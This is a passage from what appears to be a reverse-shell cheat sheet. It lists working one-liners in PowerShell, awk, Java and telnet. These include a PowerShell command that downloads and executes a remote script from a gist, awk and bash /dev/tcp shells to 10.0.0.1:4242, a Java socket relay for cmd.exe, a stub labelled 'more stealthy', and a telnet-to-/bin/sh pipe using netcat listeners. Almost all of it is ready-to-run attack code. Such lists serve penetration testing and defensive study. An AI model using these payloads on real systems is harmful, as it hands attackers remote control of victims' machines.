 ```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```

### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Java

```java
Runtime r = Runtime.getRuntime();
Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do $line 2>&5 >&5; done'");
p.waitFor();

```

#### Java Alternative 1

```java
String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

#### Java Alternative 2
**NOTE**: This is more stealthy

```java
Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();
```

### Telnet
```bash
In Attacker machine start two listeners:
nc -lvp 8080
nc -lvp 8081

In Victime machine run below command:
telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081
```
